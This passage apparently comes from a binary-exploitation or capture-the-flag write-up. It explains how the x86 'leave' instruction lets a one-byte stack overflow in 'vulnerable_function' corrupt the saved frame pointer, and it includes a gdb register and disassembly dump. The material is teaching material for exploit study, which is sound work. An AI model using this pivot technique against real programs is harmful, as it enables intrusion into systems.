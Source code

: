 Taking a better look at `leave` instruction from: https://www.felixcloutier.com/x86/leave

![](assets/leave.png) 

So it actually set $rsp to $rbp and then pops $rbp. $rsp has the address where we are going to return when the `ret` instruction is reached. We see that after 72 bytes, our next input will overwrite the last byte of `$rsp`. 

```gdb
*RAX  0x41
 RBX  0x0
*RCX  0x7ffff7af2151 (read+17) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x41
 RDI  0x0
 RSI  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
 R8   0xec
 R9   0x0
 R10  0x0
 R11  0x246
 R12  0x4006d0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe150 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe060 —▸ 0x7fffffffe042 ◂— 0x4141414141414141 ('AAAAAAAA')
 RSP  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x400a46 (vulnerable_function+167) ◂— leave  
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
   0x400a30 <vulnerable_function+145>    lea    rax, [rbp - 0x40]
   0x400a34 <vulnerable_function+149>    mov    edx, 0x41
   0x400a39 <vulnerable_function+154>    mov    rsi, rax
   0x400a3c <vulnerable_function+157>    mov    edi, 0
   0x400a41 <vulnerable_function+162>    call   read@plt                      <read@plt>
 
 ► 0x400a46 <vulnerable_function+167>    leave  
   0x400a47 <vulnerable_function+168>    nop    
   0x400a48 <vulnerable_function+169>    leave  
   0x400a49 <vulnerable_function+170>    ret    
 
   0x400a4a <setup>                      push   rbp
   0x400a4b <setup+1>                    mov    rbp, rsp
```
